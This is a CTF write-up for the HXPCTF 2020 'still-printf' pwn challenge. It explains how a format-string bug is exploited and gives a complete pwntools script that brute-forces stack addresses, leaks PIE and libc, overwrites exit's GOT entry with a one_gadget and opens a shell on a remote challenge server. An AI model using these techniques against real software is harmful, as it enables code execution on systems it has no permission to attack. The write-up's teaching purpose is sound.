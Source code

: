 ```yaml
---
layout: post
title: HXPCTF 2020 - still-printf 
category: Pwn
tags: 
    - hk
---
```

# Challenge Description

Desc ![m1](/assets/img/still-printf.PNG)

We got the following files and Source is provided. YAY

```
total 2020
drwx------ 2 1337 1337    4096 Dec 23 12:11 .
drwxr-xr-x 4 root root    4096 Dec 19 15:18 ..
-rw------- 1 root root    2421 Dec 20 09:48 .gdb_history
-rw-r--r-- 1 1337 1337    1410 Dec 19 05:46 Dockerfile
-rwxr-xr-x 1 1337 1337  165632 Jan  1  1970 ld-2.28.so
-rwxr-xr-x 1 1337 1337 1824496 Jan  1  1970 libc-2.28.so
-rwxr-xr-x 1 1337 1337   12336 Dec 18 15:09 still-printf
-rw-r--r-- 1 1337 1337     152 Dec 18 15:05 still-printf.c
-rwxr-xr-x 1 1337 1337   34712 Jan  1  1970 ynetd
```



```c
#include <stdio.h>
#include <stdlib.h>

int main() {
        char buf[0x30];
        setbuf(stdout, NULL);
        fgets(buf, sizeof(buf), stdin);
        printf(buf);
        exit(0);
}
```
A simple format-string bug. But the program exits right after printf.

 ![m1](/assets/img/question.jpg)

Here's the checksec output of the program.
```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

I dumped the stack and looked for stack pointer chains.

![m2](/assets/img/stack_layout.png) ![m3](/assets/img/layout_2.PNG)

```
09:0048│   0x7ffe308bfc08 —▸ 0x7ffe308bfce8 —▸ 0x7ffe308c0894 ◂— '/root/hxpctf/still-printf/still-printf'
$15 -> $41 was the closest one that just 'perfectly' fits into the length of 0x2f bytes.
```

# Solution
My solution includes guessing ( ( stack_address&0xfff0 ) >> 4 ) 12 bit value. The possibility is 1 / 4096.

We need to make this into multiple tries to get the code execution. printf calls vfprintf internally. By overwriting the return address of printf we can make this into multiple shots. But the challenging part is the max len of input, which is 0x2f bytes, but turns out that it's all we need to get code execution.

I knew the behaviour of vfprintf from another ctf challenge 0ctf quals - echoserver.
First i overwrote the pointer at 15th offset to point it to return address of printf (guessing LSB stack address).
THen we can use 41$n/hhn/hn to change the return address of printf.
But the way vfprintf works is, we can not do this, %`write`c%15$hn%`write`c%41$hn. When vfprintf encounters the first positional parameter `$` it copies all needed argument to an internal buffer, now if we do %41$hn to change the return address, it will fetch the original value which was there instead of the changed value.
The idea is the use "%c"*offset to reach the stack pointer and then we can do %hn to do the write so that the 41th offset points to the return address of printf. Then we can use %41$n/hn/hhn to change the return address.
The max input was 0x2f bytes and my payload fit exact 0x2f bytes.

Here's the main payload
```py
magic_number = 0x1337
payload = ('%c%p'+'%c'*8 +'%c%c%c' +f'%{ (magic_number + 1 ) - (0xd + 0x5 + 0x8 )}c'+'%hn'+f'%{ 0xdd - ( (magic_number+1)&0xff) }c'+'%41$hhn').ljust(0x2f)
```
Note: I use %p once in the payload to leak the a stack address.

If the bruteforce is sucessfull, later it's just trivial, i made this into multiple shots and partial overwrite exit_got with one_gadget.

# Exploit
```py
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random
import subprocess

# Addr
libc_leak_offset = 0x2409b
gadget1 = 0x448a3
system = 0x449c0

# Hack
def Hack():
 global io

 exe = ELF('./still-printf')
 magic_number = 0x1337
 
 # Leak stack pointer And hope for good luck.
 payload = ('%c%p'+'%c'*8 +'%c%c%c' +f'%{ (magic_number + 1 ) - (0xd + 0x5 + 0x8 )}c'+'%hn'+f'%{ 0xdd - ( (magic_number+1)&0xff) }c'+'%41$hhn').ljust(0x2f)
 print(hex(len(payload)))
 io.send(payload)

 io.recvuntil('\xd0')
 stack_leak = int(io.recvn(14),0)
 print(hex(stack_leak))

 # Leak some addresses PIE - LIBC and overwrite return of printf again to get more shots. (stack leak used here)
 payload2 = f'%{0xdd}c%11$hhn%12$p%13$p'.ljust(0x28,'A').encode() + p64(stack_leak - 0x8)[0:7]
 io.send(payload2)
 io.recvuntil('\xd0')
 pie_base = int(io.recvn(14),0) - 0x1200
 libc_leak = int(io.recvn(14),0)
 libc_base = libc_leak - libc_leak_offset
 print(hex(libc_base))
 print(hex(pie_base))

 # Get pie_address (exit_got) on stack
 payload3 = f'%{0xdd}c%11$hhn%{ ((pie_base+exe.got["exit"] )&0xffff) - 0xdd}c%10$hn'.ljust(0x20,'A').encode() + p64(stack_leak + 0x30)+p64(stack_leak - 0x8)[0:7]
 print(hex(len(payload3)))
 io.send(payload3)

 # Partial overwrite it to one_gadget
 payload4 = f'%{0xdd}c%11$hhn%{ ( (libc_base+gadget1)&0xffff ) - 0xdd}c%12$hn'.ljust(0x28,'\0').encode() + p64(stack_leak - 0x8)[0:7]
 io.send(payload4)\

 payload5 = f'%{0xdd}c%11$hhn%{ ( ( ( (libc_base+gadget1)&0xffffffff)&0xffff0000 ) >> 16 ) - 0xdd}c%10$hn'.ljust(0x20,'A').encode() + p64(pie_base+exe.got['exit']+0x2)+p64(stack_leak - 0x8)[0:7]
 io.send(payload5)
 
 # setup Gadget constraints [rsp + 0x30] == NULL and exit.
 payload6 = f'%{ (pie_base + 0x1100 )&0xffff}c%10$hn'.ljust(0x20,'\0').encode()+p64(stack_leak-0x8) + p64(0)[0:7]
 print(hex(len(payload6)))
 io.send(payload6)

for i in xrange(4096):
 try:
  #io = process('./still-printf')
  io = remote('168.119.161.224',9509)
  Hack()
  io.sendline('cat /flag*')
  data = io.recv()
  print(data)
  io.interactive()
 except:
  io.close()
  continue
``` 
